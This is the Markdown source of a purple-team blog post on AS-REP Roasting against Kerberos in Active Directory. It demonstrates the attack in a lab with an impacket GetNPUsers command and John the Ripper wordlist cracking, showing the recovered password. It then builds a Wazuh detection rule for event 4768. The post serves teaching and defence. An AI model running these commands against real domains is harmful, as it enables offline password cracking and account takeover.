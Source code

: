 ```yaml
---
title: AS-REP Roasting - MITRE ATT&CK T1558.004
date: 2025-04-27 13:00:00 
last_modified_at: 2025-04-27 13:00:00
categories: [Purple Team,Active Directory & Kerberos Abuse]
tags: [active directory,asrep roasting,hashcat,kerberos,mitre att&ck,cybersecurity,penetration testing,purple team]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post5/kerberos.png
  alt: "AS-REP Roasting Attack - Kerberos Authentication Exploitation"
author: Ahmed BAHYA
excerpt: "Learn about AS-REP Roasting attack (MITRE ATT&CK T1558.004), a Kerberos authentication exploitation technique. Complete walkthrough with detection and response using Wazuh SIEM."
description: "Comprehensive guide to AS-REP Roasting attack (MITRE ATT&CK T1558.004). Learn how attackers exploit Kerberos pre-authentication, practical demonstration, and detection using Wazuh SIEM for cybersecurity defense."
keywords: [as-rep roasting, kerberos, active directory, mitre att&ck, t1558.004, cybersecurity, penetration testing, purple team, wazuh, siem, detection, response, hashcat, john the ripper]
canonical_url: https://b2hu.me/posts/AS-REP-Roasting-Attack
---
```

Hello everyone, thank you for being here. In this blog post, I will demonstrate and simulate a very classic yet interessting Active Directory and Kerberos abuse attack: the **AS-REP Roasting** attack. So, let's get started!
## What is Kerberos ?
Kerberos is a network authentication protocol designed to provide strong authentication for client-server applications using ticket-based cryptography. Developed by MIT, it is the default authentication mechanism in Microsoft Active Directory (AD) environments.
### Kerberos components :
Kerberos authentication involves three main components:

- **Key Distribution Center (KDC)** – The central authority that issues tickets, the KDC has two main components :
  - **Authentication Service (AS)** – Verifies user identity and issues Ticket-Granting Tickets (TGTs).
  - **Ticket-Granting Service (TGS)** – Grants service tickets for accessing resources.

- **Client** – The user or service requesting access.

- **Service Server** – The resource the client wants to access (e.g., a file share, SQL server).
### The Kerberos Authentication Flow (simplified) :

1. **AS-REQ** (Authentication Service Request) : – The client requests a TGT from the AS.

2. **AS-REP** (Authentication Service Reply) : – If pre-authentication is enabled, the AS verifies the user’s credentials and sends an encrypted TGT.

3. **TGS-REQ** (Ticket-Granting Service Request) : – The client sends the TGT to the TGS to request a service ticket.

4. **TGS-REP** (Ticket-Granting Service Reply) : – The TGS issues a service ticket for the requested resource.

5. **AP-REQ** (Application Request) : – The client presents the service ticket to the target server.

6. **AP-REP** (Application Reply) : – The server grants access.

this image below represents the kerberos flaw, as stated before :

![screen_1](/./media/post5/krbmsg.gif)

## AS_REP Roasting :
**AS-REP Roasting** exploits a weakness in Kerberos when **pre-authentication** is disabled for a user account. Without pre-authentication, an attacker can request a TGT (no password aka anyone can) for the user and receive an encrypted AS-REP message, which can be cracked offline to reveal the user’s password. Luckily in **Kerberos v5** the preauth is enabled by default and you have to manually disable it, the only reason i think sys admin would disble it is for backward compatibility with Kerberos v4 libraries that might be used by some legacy applications,those account by default do not require a password.
## ATTACK Simulation (AS-REP Roasting Attack Demonstration) :
In this practical demonstration, we'll simulate an **AS-REP Roasting** attack in our test environment and identify **key Indicators of Attack (IoAs)** that would alert defenders to such malicious activity.

**Lab Environment Details:**

- Target Domain: **iccn.ma**

- Vulnerable Account: **iccn.ma/jdoe** (pre-authentication disabled)
the **jdoe** user properties must be set up with preauth disabled just as follows : 

![screen_2](/./media/post5/jdoe_prop.png)

### Attack
for the asrep abuse we'll use the impacket script **GetNPUsers.py** script :
```shell
impacket-GetNPUsers -no-pass iccn.ma/jdoe -dc-ip 10.0.2.16 
```
after execuring this command we'll get the ASREP (TGT + Session key), the session key is the one that's encrypted wiht the user jdoe password's hash.
now we can move to offline cracking, we can use tools like hashcat or JTR (john the ripper), for this demo i'll user JTP with rockyou.txt password list, the command is like this : 
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgt.txt 
```
after a while (depending on the domain password policy), we can get this output :
```shell
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$jdoe@ICCN.MA)     
1g 0:00:00:00 DONE (2025-04-28 23:28) 6.250g/s 211200p/s 211200c/s 211200C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
as we can see the password of the **iccn/jdoe** user is **Password123** 
and just like that the attacker has now a foothold in your domaina and can perfom even more enumeration to find weakspots.


## Detect & respond to the Attack Using _Wazuh_

every TGT Request to the DC is logged with this **4768**, remember it because we'll need it later when we create detection rules in **_wazuh_**. You can see the event in windows event viewer just like this :

![screen_3](/./media/post5/windows_event.png)

The objective of this detection is to generate alerts whenever an **unauthorized IP** makes a **TGT request** to Domain Controller (DC) accounts that have **pre-authentication disabled**. To achieve this, we'll use Wazuh and its powerful capabilities for customizing detection rules and variables.

By default, Wazuh includes a rule for TGT requests; however, it is set at level 0, which means it does not generate alerts. Instead of modifying this built-in rule, we'll create a child rule that triggers whenever the parent rule fires. This approach gives us better control and flexibility over the detection logic.

Let’s analyze the following rule:

```xml
<var name="acc_no_pre_auth">jdoe</var>
<group name="security_event, windows,">
  <rule id="110002" level="12">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.TargetUserName">$acc_no_pre_auth</field>
    <match name="win.eventdata.IpAddress" negate="yes">10.0.2.17</match>
    <options>no_full_log</options>
    <description>Possible ASREP Roast Attack from $(win.eventdata.IpAddress) to a no-preauth account: $(win.eventdata.TargetUserName)</description>
    <mitre>
        <id>T1558.004</id>
    </mitre>
    <info type="link">https://attack.mitre.org/techniques/T1558/004/</info>
  </rule>
</group>
````
This child rule (ID: 110002) is triggered when its parent rule (60103) is matched. It includes conditions aligned with our detection objective:

1. It only triggers if the **TargetUserName** matches an account with pre-authentication disabled, defined in the variable **$acc_no_pre_auth**.
2. It ensures the IpAddress is not equal to the legitimate IP address **10.0.2.17**.

The generated alert includes useful metadata like the MITRE ATT&CK technique ID and a link for further reading.

Next, we simulate the attack from a Linux machine with the IP address 10.0.2.20:

![screen_4](/./media/post5/ifconfig.png)
After using the Impacket script (as in the previous attack simulation). In the Wazuh Dashboard, we can observe that an alert was successfully generated:
![screen_5](/./media/post5/alert.png)
we can further inspect the content of the alert using drilldowns 
![screen_6](/./media/post5/desc_1.png)

## Conclusion
This detection strategy successfully leverages Wazuh’s rule customization and variable substitution capabilities to detect **ASREP Roasting** attacks. By creating a child rule that monitors for TGT requests to accounts with preauthentication disabled—only from unauthorized IPs— we ensure targeted and meaningful alerts without modifying Wazuh’s built-in rules. This approach enhances flexibility and maintains rule integrity. As demonstrated, a simulated ASREP Roasting attempt from an untrusted IP triggered a precise alert, confirming the effectiveness of this method in identifying potential lateral movement or credential dumping attacks in an Active Directory environment.

I hope You have enjoyed reading this blog post,f you have any questions or need help implementing a similar setup, feel free to ask!

---

<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "TechArticle",
  "headline": "AS-REP Roasting - MITRE ATT&CK T1558.004",
  "description": "Comprehensive guide to AS-REP Roasting attack (MITRE ATT&CK T1558.004). Learn how attackers exploit Kerberos pre-authentication, practical demonstration, and detection using Wazuh SIEM for cybersecurity defense.",
  "image": "https://b2hu.me/media/post5/kerberos.png",
  "author": {
    "@type": "Person",
    "name": "Ahmed BAHYA",
    "url": "https://b2hu.me"
  },
  "publisher": {
    "@type": "Organization",
    "name": "ThreatLenz",
    "logo": {
      "@type": "ImageObject",
      "url": "https://i.pinimg.com/236x/19/27/c0/1927c03f9e435636a71698616c4416fb.jpg"
    }
  },
  "datePublished": "2025-04-27T13:00:00+00:00",
  "dateModified": "2025-04-27T13:00:00+00:00",
  "mainEntityOfPage": {
    "@type": "WebPage",
    "@id": "https://b2hu.me/posts/AS-REP-Roasting-Attack"
  },
  "keywords": "as-rep roasting, kerberos, active directory, mitre att&ck, t1558.004, cybersecurity, penetration testing, purple team, wazuh, siem, detection, response, hashcat, john the ripper",
  "articleSection": "Purple Team",
  "inLanguage": "en-US"
}
</script>


